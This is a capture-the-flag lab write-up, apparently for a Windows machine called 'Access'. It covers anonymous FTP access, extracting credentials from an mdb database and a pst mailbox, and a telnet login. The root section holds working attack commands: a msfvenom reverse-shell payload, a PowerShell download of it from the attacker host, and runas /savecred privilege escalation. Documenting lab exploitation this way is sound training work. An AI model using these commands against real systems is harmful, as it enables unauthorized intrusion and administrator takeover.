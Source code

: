 ## Nmap


![](https://i.imgur.com/1jrYzz2.png)
I found a ftp service is running, and next tried to login annoymous.

## FTP
Through the Nmap result, I tried to log in FTP server.
![](https://i.imgur.com/rWyGfbl.png)

In the "Engineer" dir, I found a dir named 'Access Control.zip', that sounds suspicious.
```
$ get "Access Control.zip"
```
In the "Backups" dir, also find a file.
```
$ get "backup.mdb"
```
## backup.mdb
That's see the file, maybe it has something important information, so I use mdb hacking:
```
$ mdb-tables backup.mdb
```
![](https://i.imgur.com/oc3zby7.png)

This is a surprise discovery, We discover a table named "auth_user".
```
$ mdb-export backup.md auth_user
```
![](https://i.imgur.com/Tk6UFZX.png)

Wow, we already get engineer's password!
## Access Control.zip
I tried to analysis the zip, the first thing is unzip it.
```
$ 7z x Access\ Control.zip
```
It need to enter password, I tried to enter the password I found in backup.mdb, success!
unzip it, I found a file named **"Access Control.pst"**.

It's a outlook file, so I use this command to read it:
```
$ readpst "Access Control.pst"
```
Success get "Access Control", I can found a password in that.
```
$ cat "Access Control"
```
![](https://i.imgur.com/7ncNDKQ.png)
## Telnet
Use the account/password from "Access Control" file login.
![](https://i.imgur.com/DX54uPC.png)

In the Desktop, I success found "user.txt".
![](https://i.imgur.com/2Go85vl.png)
## Root
Finally, at the most difficult level, I tried a lot of ways to get root, and I found the **"runas"** tips from the machine.
I create a reverse shell in the attack machine first.
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP> LPORT=<Port> -f exe > shell.exe
```
then use powershell to get the exe file in the victim machine.
```
$ powershell -c (new-object System.Net.WebClient).DownloadFile('http://<Your IP>/shell.exe','C:\Users\security\shell.exe')
```
The final and most important step, use "runas" command to reverse shell.
```
$ runas /savecred /user:Administrator shell.exe
```
In this step, "runas" command had a special attritube named "/savecred", means the password that can be used to log in with the last user preset.
success get the shell in the meterpreter.
![](https://i.imgur.com/oBBPKCP.png)
root flag:
![](https://i.imgur.com/t8yupI5.png)
